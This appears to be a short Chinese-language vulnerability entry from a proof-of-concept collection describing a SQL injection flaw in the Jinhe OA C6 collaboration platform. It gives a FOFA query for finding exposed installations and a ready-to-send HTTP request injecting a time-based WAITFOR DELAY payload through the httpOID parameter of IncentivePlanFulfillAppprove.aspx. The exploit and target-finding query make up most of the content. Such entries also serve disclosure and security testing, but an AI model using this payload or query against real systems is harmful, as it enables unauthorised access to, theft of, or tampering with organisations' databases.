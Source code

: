# 金和OA-C6系统接口IncentivePlanFulfillAppprove.aspx存在SQL注入漏洞

金和oa协同管理平台（又称金和C6协调管理平台），共有20多个应用模块，160多个应用子模块，涉及的企业管理业务包括协同办公管理、人力资源管理、项目管理、客户关系管理、企业目标管理、费用管理等多个业务范围。该系统存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
app="金和网络-金和OA"
```

## poc

```javascript
GET /C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfillAppprove.aspx/?httpOID=1;WAITFOR+DELAY+'0:0:2'-- HTTP/1.1
Host: 
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502131412695.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/QvQXcg1UeNzILoY7n8c57g